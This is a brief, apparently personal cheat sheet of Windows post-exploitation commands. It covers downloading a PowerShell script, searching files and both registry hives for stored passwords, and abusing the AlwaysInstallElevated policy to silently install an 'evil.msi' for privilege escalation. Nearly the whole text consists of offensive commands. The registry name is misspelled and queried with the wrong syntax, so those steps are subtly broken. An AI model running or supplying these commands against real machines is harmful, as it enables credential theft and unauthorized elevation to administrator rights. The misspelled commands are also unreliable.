 TO FORMAT

List powershell module dirs:

echo $Env:PSModulePath

Download file:

Invoke-WebRequest http://url-to/file.ps1 -OutFile C:\path\to\file.ps1

Search for passwords:

cmd style: dir /s \*pass\* == \*cred\* == \*vnc\* == \*.config\*

powershell style: findstr /si password \*.xml \*.ini \*.txt

reg query HKLM /f password /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s


MSI REG:

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated

-> 1
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated

-> 1

=> get an evil.msi

=> msiexec /quiet /qn /i evil.msi


